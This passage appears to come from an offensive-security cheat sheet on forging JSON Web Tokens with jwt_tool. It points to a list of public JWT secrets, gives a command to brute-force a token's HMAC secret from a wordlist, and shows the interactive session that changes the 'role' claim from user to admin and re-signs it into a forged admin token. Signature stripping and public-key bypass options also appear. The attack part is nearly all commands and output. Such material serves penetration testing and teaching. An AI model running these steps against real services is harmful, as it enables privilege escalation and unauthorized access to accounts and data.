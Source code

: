 Useful list of 3502 public-available JWT: [wallarm/jwt-secrets/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list), including `your_jwt_secret`, `change_this_super_secret_random_string`, etc.


#### JWT tool

First, bruteforce the "secret" key used to compute the signature using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number (or 0 to Continue):
> 0
```

Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the key length:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

